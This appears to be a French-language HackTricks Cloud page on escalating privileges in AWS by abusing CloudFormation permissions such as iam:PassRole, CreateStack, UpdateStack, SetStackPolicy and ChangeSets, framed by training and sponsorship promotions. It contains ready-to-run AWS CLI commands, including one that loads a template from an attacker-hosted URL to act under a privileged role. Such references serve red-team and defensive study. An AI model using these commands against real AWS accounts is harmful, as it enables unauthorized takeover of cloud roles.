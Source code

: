 # AWS - Élévation de privilèges avec Cloudformation

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Pour plus d'informations sur cloudformation, consultez :

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces permissions **peut escalader les privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur leur serveur, pour **exécuter des actions sous les permissions d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Dans la page suivante, vous avez un **exemple d'exploitation** avec la permission additionnelle **`cloudformation:DescribeStacks`** :

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impact potentiel :** Élévation de privilèges vers le rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une pile cloudformation existante** pour la mettre à jour et élever les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous octroyer la permission `UpdateStack`** sur une pile et réaliser l'attaque.

**Impact Potentiel :** Privesc vers le rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas de `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM déjà attachés**. Consultez la section précédente pour un exemple d'exploitation (ne mentionnez simplement aucun rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous octroyer la permission `UpdateStack`** sur une pile et réaliser l'attaque.

**Impact Potentiel :** Privesc vers le rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant avec les permissions pour **passer un rôle et créer & exécuter un ChangeSet** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** tout comme avec les permissions CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de celle de**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) utilisant les permissions **ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner les permissions `ChangeSet`** sur une pile et réaliser l'attaque.

**Impact Potentiel :** Élévation de privilèges aux rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est comme la méthode précédente sans passer de **rôles IAM**, donc vous pouvez simplement **abuser de ceux déjà attachés**, modifiez simplement le paramètre :
```
--change-set-type UPDATE
```
**Impact Potentiel :** Élévation de privilèges vers le rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces permissions pour créer/mettre à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact Potentiel :** Élévation de privilèges vers les rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette permission sans la permission passRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact Potentiel :** Élévation de privilèges vers les rôles cloudformation attachés.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
